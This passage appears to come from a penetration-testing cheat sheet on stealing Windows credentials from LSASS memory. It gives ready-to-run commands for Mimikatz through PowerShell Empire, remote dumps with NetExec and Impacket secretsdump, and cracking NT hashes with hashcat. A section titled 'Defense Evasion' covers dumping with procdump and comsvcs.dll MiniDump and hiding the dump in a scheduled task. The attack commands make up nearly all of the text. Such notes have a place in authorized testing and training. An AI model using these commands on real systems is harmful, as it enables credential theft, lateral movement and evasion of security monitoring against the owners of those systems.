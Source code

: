 #### Using PowerShell Empire
```powershell
# Load Mimikatz module
Invoke-Mimikatz -Command "privilege::debug"
Invoke-Mimikatz -Command "sekurlsa::logonpasswords"
```

### Remote LSASS Attacks

#### Using NetExec
```bash
# Dump LSASS remotely
netexec smb 10.129.42.198 -u user -p password --lsa

# Combine with other dumps
netexec smb 10.129.42.198 -u user -p password --sam --lsa
```

#### Using Impacket
```bash
# Remote secretsdump (includes LSASS)
python3 secretsdump.py domain/user:password@10.129.42.198

# Specific LSASS dump
python3 secretsdump.py domain/user:password@10.129.42.198 -outputfile lsass_dump
```

### Cracking Extracted Credentials

#### NT Hashes from LSASS
```bash
# Extract NT hashes from pypykatz output
grep "NT:" credentials.txt | cut -d: -f2 | sort -u > nt_hashes.txt

# Crack with hashcat
hashcat -m 1000 nt_hashes.txt /usr/share/wordlists/rockyou.txt

# Example:
hashcat -m 1000 64f12cddaa88057e06a81b54e73b949b /usr/share/wordlists/rockyou.txt
```

### Defense Evasion for LSASS

#### Avoiding Detection
```bash
# Use legitimate tools
procdump64.exe -accepteula -ma lsass.exe lsass.dmp

# Alternative dump locations
rundll32 C:\windows\system32\comsvcs.dll, MiniDump 664 C:\users\public\documents\lsass.dmp full

# Use task scheduler
schtasks /create /tn "SystemDump" /tr "rundll32 C:\windows\system32\comsvcs.dll, MiniDump 664 C:\temp\lsass.dmp full" /sc once /st 00:00
```

